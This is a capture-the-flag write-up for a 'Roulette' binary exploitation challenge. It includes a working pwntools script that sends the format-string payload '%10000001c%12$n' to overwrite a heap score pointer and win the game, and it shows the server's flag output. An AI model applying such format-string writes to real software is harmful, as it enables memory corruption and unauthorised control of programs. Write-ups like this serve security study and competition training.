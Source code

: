 # Roulette

**Category**: Pwn

![./screenshots/0.png](./screenshots/0.png)

We were given a server(and a sample ELF file), containing a roulette game. If we guess correctly every round & win enough points - we'll get the flag.

# Solution

The intended solution involves integer overflow, insecure PRNG & leaking values using another bug(format string).

However, during the CTF, I found an un-intended pathway to exploit the roulette game & get the flag.

```py
#!/usr/bin/env python
from pwn import *
exe = context.binary = ELF('./roulette.bin')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('challenges.ctfd.io', 30426)
    else:
        return process([exe.path] + argv, *a, **kw)


magic_num   = b'202009'
num_rounds  = b'%10000001c%12$n' # overwriting the 'score' pointer on the heap(12th element), 
                                 # https://www.youtube.com/watch?v=KpXsfimrkFo


# ==============================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil(b'play(Up to 2)?\n')
io.sendline(b'2')
io.recvuntil(b'Choose your bet (1-36)\n')
io.sendline(magic_num)
io.recvuntil(b'you entered the right one):\n')
io.sendline(num_rounds)
io.recvuntil('Won')

io.interactive()
```

The format string payload(in ``num_rounds``) will overwrite the 'score' pointer on the heap with the value ``10000001``, allowing us to affect the ``jle`` instruction(below).

![./screenshots/1.png](./screenshots/1.png)

If the jump will not be taken, we will win the game & get the flag.

output from server:
```
You Won!
The Flag is: MCL{I_HOPE_YOU'LL_BE_HAPPY_NOW}
```

(:
